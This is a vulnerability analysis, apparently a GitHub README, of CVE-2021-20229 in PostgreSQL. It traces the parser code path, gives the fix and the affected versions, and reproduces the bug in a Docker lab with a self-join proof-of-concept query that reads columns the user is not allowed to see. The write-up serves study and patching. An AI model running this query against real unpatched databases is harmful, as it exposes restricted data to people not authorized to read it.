



# CVE-2021-20229 CWE-863 PostgreSQL permission bypass

## Vulnerability Background
- **Range Table Entry (RTE):** In PostgreSQL, Range Table Entry (RTE) is a core data structure during the query resolution phase, used to represent tables or subqueries involved in the query. Each RTE corresponds to a table, view, subquery, or join operation in the query, and stores the table's metainformation (such as table name, aliases, table OID, etc.) and access permission requirements. RTE is the foundation for query execution planning, construction, and permission checks.
- **selectedCols:** A member of the `RangeTblEntry` structure in PostgreSQL that records the columns requested to access in the current query. It is a bitmap set, and each time a column is accessed, the corresponding column number is added to it. During the parsing phase, each column requested by the user is "marked" and `selectedCols` is filled in. The execution phase then checks these markings and the permission system to check whether the user has permission to access these columns. It is one of the core mechanisms for implementing hierarchical access control.
- **Marking:** The key process used by PostgreSQL during the query resolution phase for permission control refers to recording the position numbers of certain columns in the `selectedCols` of the corresponding table `RangeTblEntry` when a user requests access to certain columns in a table, serving as the basis for permission checks during subsequent execution phases. This process ensures the system can accurately determine which columns users actually access, enabling column-level permission control.

## Vulnerability Mechanism
In PostgreSQL, when handling queries involving joins, functions like `scanNSItemForColumn`, `expandNSItemAttrs`, and `ExpandSingleTable` will pass an erroneous Range Table Entry (RTE) when calling `markVarForSelectPriv`. They pass the RTE of the joined table, rather than the RTE of the base table that provides the connected columns. This causes the `selectedCols` bitmap of the base table to be incorrectly filled, causing the set of columns read in the query to be underestimated. Attackers can exploit this vulnerability by carefully constructing queries to read all columns of the table when having SELECT privileges for only one column.

**CWE-863 Incorrect Authorization --> Permission Bypass**

**You need to have access permissions for a certain column in a table but cannot access other columns; exploiting this vulnerability can obtain the contents of an unauthorized column**

## Vulnerability Location
Analysis of postgresql-13.1 source code

1. In the src \backend \parser \analyze .c file, line 1190 of the `transformSelectStmt` function is used to handle `SELECT` statements, and at line 1221, `transformFromClause` is called to handle it `FROM` statement, line 1224 calls the `transformTargetList` function to handle `SELECT *`.

   ```c
   static Query *
   transformSelectStmt(ParseState *pstate, SelectStmt *stmt)
   {
   	/* process the FROM clause */
   	transformFromClause(pstate, stmt->fromClause);
       /* transform targetlist */
   	qry->targetList = transformTargetList(pstate, stmt->targetList,
   										  EXPR_KIND_SELECT_TARGET);
   }
   ```

   `src/include/parser/parse_node.h` defines the `ParseState` structure on line 176

   ```c
   struct ParseState
   {
       struct ParseState *parentParseState;  Parent context in nested queries
   
       List *p_sourcetext;      Original SQL text
       List *p_rtable;          Range table under current scope (RTE list)
       List *p_joinlist;        join the list of structures
       List *p_namespace;       Current namespace (for * expansion)
       List *p_target_nslist;   The scope used for parsing the UPDATE/INSERT target
       ParseExprKind p_expr_kind;
   
       Index p_next_resno;      The current resno number of TargetEntry
       // ... ...
   };
   ```

2. In the src \backend \parser \parse _clause.c file, line 114, the `transformFromClause` function is used to handle the FROM clause in SQL queries and add items to the query's range table, Join list and namespace. Traversing every node in `frmList`, line 133, calls `transformFromClauseItem` function processing for each node and traces the function.

   ```c
   // parse_clause.c --114
   /*
    * transformFromClause -
    *	  Process the FROM clause and add items to the query's range table,
    *	  joinlist, and namespace.
    *
    * Note: we assume that the pstate's p_rtable, p_joinlist, and p_namespace
    * lists were initialized to NIL when the pstate was created.
    * We will add onto any entries already present --- this is needed for rule
    * processing, as well as for UPDATE and DELETE.
    */
   void transformFromClause(ParseState *pstate, List *frmList)
   {
       foreach(fl, frmList)
       {
           Node *n = lfirst(fl);
           ParseNamespaceItem *nsitem;
           List *namespace;
   
           n = transformFromClauseItem(pstate, n, &nsitem, &namespace);
           checkNameSpaceConflicts(pstate, pstate->p_namespace, namespace);
           pstate->p_joinlist = lappend(pstate->p_joinlist, n);
           pstate->p_namespace = list_concat(pstate->p_namespace, namespace);
       }
   }
   ```

   At line 1054, it handles the various items in the `FROM` clause, including table references, subqueries, function calls, and join expressions (`JoinExpr`). Line 1142 is used to handle `JOIN` statements. After processing the left and right tables of `JOIN`, line 1457 parses clause `USING`, and line 1457 uses the `addRangeTableEntryForJoin` function to track this function.

   ```c
   static Node *transformFromClauseItem(ParseState *pstate, Node *n,ParseNamespaceItem **top_nsitem,List **namespace)
   {
       // ...
       parse_clause.c -- Line 1142
       else if (IsA(n, JoinExpr))
           {
               /* Handle left table -- row 1170 */
               j->larg = transformFromClauseItem(pstate, j->larg, &l_nsitem, &l_namespace);
               /* Handle the right table -- row 1193 */
               j->rarg = transformFromClauseItem(pstate, j->rarg, &r_nsitem, &r_namespace);
   
               /* Parse and convert the USING clause -- line 1193 
                * Match the column names on both sides and generate the merged column information
                * Merged column information is used to build a new RangeTblEntry (RTE)
                */
               if (j->usingClause)
               {
               1457 lines
               Construct a RangeTblEntry (RTE) and a corresponding namespace entry (nsitem) for the result of the JOIN operation
               nsitem = addRangeTableEntryForJoin(pstate,res_colnames,res_nscolumns,j->jointype,list_length(j->usingClause),res_colvars,l_colnos,r_colnos, j->alias,true);
   
               j->rtindex = nsitem->p_rtindex;
   
               *top_nsitem = nsitem;
               *namespace = lappend(my_namespace, nsitem);
   
               return (Node *) j;
           }
           // ...
   }
   ```

   In the src \backend \parser \parse _relation.c file, line 2100, `addRangeTableEntryForJoin` function, line 2128, create a JOIN-type RangeTblEntry(RTE) in SQL with a JOIN operation, **line 2157, will  `requiredPerms` marked as `0` (indicating no permission request), `selectedCols` initialized as empty indicates that permission tags (marking) should be performed on the real base table during the parsing phase, meaning the result table after JOIN (alias) itself does not directly participate in permission control. However, for JOINs, selectedCols should only be marked on the "real table" (i.e., base table RTE_RELATION type), not on the JOIN alias table (RTE_ JOIN type). Later, the rte of the JOIN table was mistakenly used as the target RTE for selectedCols. **Line 2169 adds the constructed `RangeTblEntry` (type `RTE_JOIN`) to the current parsing state. This function returns the alias `nsitem` of the table after `JOIN`. Note that **nsitem->p_rte = rte** here.

   ```c
   parse_relation.c 2100 lines
   ParseNamespaceItem *
   addRangeTableEntryForJoin(ParseState *pstate, List *colnames, ParseNamespaceColumn *nscolumns, JoinType jointype, int nummergedcols, List *aliasvars, List *leftcols, List *rightcols , Alias *alias, bool inFromCl)
   {
       2128 lines
   	rte->rtekind = RTE_JOIN;
       Line 2157, key point
       rte->requiredPerms = 0;
   	rte->checkAsUser = InvalidOid;
   	rte->selectedCols = NULL;
   	2169 lines
   	pstate->p_rtable = lappend(pstate->p_rtable, rte);
   
   	2175 lines
   	nsitem = (ParseNamespaceItem *) palloc(sizeof(ParseNamespaceItem));
       Note here: nsitem->p_rte = rte
   	nsitem->p_rte = rte;
   	nsitem->p_rtindex = list_length(pstate->p_rtable);
   	nsitem->p_nscolumns = nscolumns;
   
   	return nsitem;
   }
   ```

3. Return to the first step, analyze `transformTargetList` function processing `*`, in the src \backend \parser \parse _target.c file, line 133, function `transformTargetList`, line 164 , when encountering `something.*` (SELECT * i.e., SELECT j.*), the `ExpandColumnRefStar` function is called to expand into a specific column list, returning multiple target items and tracking the function.

   ```c
   List *transformTargetList(ParseState *pstate, List *targetlist,ParseExprKind exprKind)
   {
       // ... ...
       parse_target.c: Line 164
       if (IsA(res->val, ColumnRef))
       {
           ColumnRef *cref = (ColumnRef *) res->val;
           if (IsA(llast(cref->fields), A_Star))
           {
               For example: SELECT a.*
               p_target = list_concat(p_target,
                   ExpandColumnRefStar(pstate, cref, true));
               continue;
           }
       }
       // ... ...
   }
   ```

   In line 1089 of the current file, the `ExpandColumnRefStar` function is used to handle column references like `foo.*`, expanding them into a list. On line 1106, when the number of fields in `foo.*` is 1 (i.e., only `*`), the `ExpandAllTables` function is called

   Expand all columns in the table to trace the function.

   ```c
   static List *ExpandColumnRefStar(ParseState *pstate, ColumnRef *cref,bool make_target_entry)
   {
       // ...
       parse_target.c 1106 lines
       if (numnames == 1)
       {
           /*
            * Target item is a bare '*', expand all tables
            *
            * (e.g., SELECT * FROM emp, dept)
            *
            * Since the grammar only accepts bare '*' at top level of SELECT, we
            * need not handle the make_target_entry==false case here.
            */
           Assert(make_target_entry);
           return ExpandAllTables(pstate, cref->location);
       }
       // ...
   }
   ```

   Line 1262, `ExpandAllTables` function is used to expand the `*` in the `SELECT` query target list into columns for all visible tables. It generates the target item (`TargetEntry`) and marks the referenced column as requiring `SELECT` permission. It is an auxiliary function of the `ExpandColumnRefStar` function, used to handle `*` cases. Here, the `expandNSItemAttrs` function is called to expand all columns corresponding to a table/alias into an expression and mark it. This step is where **selectedCols** actually trigger permission tags, `nsitem` from the previously `addRangeTableEntryForJoin()` registered JOIN table alias, `nsitem->p_rte` the RTE of type `RTE_JOIN`. Track this function.

   ```c
   static List *ExpandAllTables(ParseState *pstate, int location)
   {
       // ...
       parse_target.c 1280 lines
       target = list_concat(target, expandNSItemAttrs(pstate, nsitem, 0, location));
       // ...
   }
   ```

   In the src \backend \parser \parse _relation.c file, line 3019 of the `expandNSItemAttrs` function, where line 3051 calls the `markVarForSelectPriv` function to mark each column of the table. **The rte passed in here is nsitem->p_rte, which stands for JOIN alias. **Track this function.

   ```c
   expandNSItemAttrs(ParseState *pstate, ParseNamespaceItem *nsitem,
   				  int sublevels_up, int location)
   {
   	RangeTblEntry *rte = nsitem->p_rte;
   	List	   *names,
   			   *vars;
   	ListCell   *name,
   			   *var;
   	List	   *te_list = NIL;
   
       Extract all "expandable" columns from nsitem
   	vars = expandNSItemVars(nsitem, sublevels_up, location, &names);
   
   	/*
   	 * Require read access to the table.  This is normally redundant with the
   	 * markVarForSelectPriv calls below, but not if the table has zero
   	 * columns.
   	 */
   	rte->requiredPerms |= ACL_SELECT;
   
   	forboth(name, names, var, vars)
   	{
   		char	   *label = strVal(lfirst(name));
   		Var		   *varnode = (Var *) lfirst(var);
   		TargetEntry *te;
   
   		te = makeTargetEntry((Expr *) varnode,(AttrNumber) pstate->p_next_resno++,label,false);
   		te_list = lappend(te_list, te);
   
   		/* Require read access to each column */
   		markVarForSelectPriv(pstate, varnode, rte);
   	}
   
   	Assert(name == NULL && var == NULL);	/* lists not the same length? */
   
   	return te_list;
   }
   ```

   At line 1084, the `markVarForSelectPriv` function calls the `markRTEForSelectPriv` function, but since in the `markVarForSelectPriv` function, the `rte` passed to `markRTEForSelectPriv` is `JOIN` alias  `RangeTblEntry` (type `RTE_JOIN`), not the actual base table. Therefore, permission tags were mistakenly labeled on `JOIN` aliases, rather than the actual base table. **This is the trigger for the vulnerability**.

   ```c
   /*
    * markVarForSelectPriv
    *	   Mark the RTE referenced by a Var as requiring SELECT privilege
    */
   void
   markVarForSelectPriv(ParseState *pstate, Var *var, RangeTblEntry *rte)
   {
   	Index		lv;
   
   	Assert(IsA(var, Var));
   	/* Find the appropriate pstate if it's an uplevel Var */
   	for (lv = 0; lv  < var-> varlevelsup; lv++)
   		pstate = pstate->parentParseState;
       Trigger point
   	markRTEForSelectPriv(pstate, rte, var->varno, var->varattno);
   }
   ```

## Remediation

Upgrade to PostgreSQL 13.2 or later.
Change `markRTEForSelectPriv` to only get the correct RTE from `pstate->p_rtable` based on the incoming `rtindex`, ignoring the RTE passed by the caller; At the same time, in `expandNSItemAttrs` and `ExpandSingleTable`, the `ACL_SELECT` flag is only added when the RTE truly represents the base table (`rtekind == RTE_RELATION`).

```c
static void markRTEForSelectPriv(ParseState *pstate, int rtindex, AttrNumber col)
```

This eliminates the possibility of alias being mistakenly marked.

## Affected Versions
PostgreSQL was available before version 13.2, 12.6, 11.11, 10.16, 9.6.21, and 9.5.25

## Environment Setup
Start Docker, Postgres version is 13.1



The container initialization script is as follows: `limit_user` users can only access column `public_info` in the `test_tb` table and cannot access column `secret_info`.

```sql
-- Initialize the database and table structure
CREATE USER limit_user WITH PASSWORD 'userpwd';

CREATE TABLE test_tb (
  id SERIAL PRIMARY KEY,
  secret_info TEXT,
  public_info TEXT
);

INSERT INTO test_tb (secret_info, public_info)
VALUES
  ('secret_data_1', 'public_data_1'),
  ('secret_data_2', 'public_data_2');

-- Only limit_user users are granted the public_info SELECT permission
GRANT SELECT (public_info) ON test_tb TO limit_user;
```

## Vulnerability Reproduction
1. Log in to the `postgres` database using a `limit_user` account

```bash
psql -h localhost -p 5432 -U limit_user -d postgres
```

2. View the data in column `public_info` of the `test_db` table and return the result successfully

```
SELECT public_info FROM test_tb;
```

3. Checking the data for columns `secret_info` in the `test_db` table shows insufficient permission. Checking the entire `test_db` table also causes errors, indicating that the `limit_user` user does not have permission for columns `secret_info`

```bash
SELECT secret_info FROM test_tb;
SELECT * FROM test_tb;
```

4. Run the POC code to try to join two `secret_table` tables and query all columns in the joined table. This query names `secret_table` alias `a` and `b`, and uses `public_info` columns to join them, resulting in a table named `j`. You can see that all data in the `j` table has been returned, including columns `secret_info` that are not authorized

```sql
SELECT * FROM (test_tb a JOIN test_tb b USING (public_info)) j;
```



## PoC Analysis
Table `test_tb` performs self-joining, and uses `USING` clauses to specify `public_info` columns for joining, then names the result set of joins as `j`. Query the connection result of the `test_tb` table, i.e., query all information in the `j`.

```sql
SELECT * FROM (test_tb a JOIN test_tb b USING (public_info)) j;
```

When parsing `j.*`, call `expandNSItemAttrs`, which will treat the entire JOIN subquery as a new RTE (i.e., RTE "j"). When calling `markVarForSelectPriv` for each column, the RTE pointer passed to it happens to be this alias RTE, not the original `test_db` `RTE`. `markRTEForSelectPriv` set `selectedCols` directly on the incoming RTE, so all columns in the new `j` table are marked as "authorized." During execution, only the `selectedCols` of this alias `RTE` is checked, and all columns are granted permissions, allowing access to `j.secret_text` while ignoring the user's lack of permission for `secret_text` columns in the original table.

## Exploit Analysis
Run the EXP file and enter the relevant information: database IP and port, restricted database username and password, database name and table name, column name with access rights. Afterwards, all data in the table will be obtained.



## References
[Wrong authorization in PostgreSQL · CVE-2021-20229 · GitHub Security Bulletin Database --- Incorrect Authorization in PostgreSQL · CVE-2021-20229 · GitHub Advisory Database](https://github.com/advisories/GHSA-43rr-wcj9-h45w)

[git.postgresql.org Git - postgresql.git/commitdiff](https://git.postgresql.org/gitweb/?p=postgresql.git&a=commitdiff&h=c028faf2a)

[PostgreSQL: CVE-2021-20229: Single-column SELECT privilege enables reading all columns --- PostgreSQL: CVE-2021-20229: Single-column SELECT privilege enables reading all columns](https://www.postgresql.org/support/security/CVE-2021-20229/)
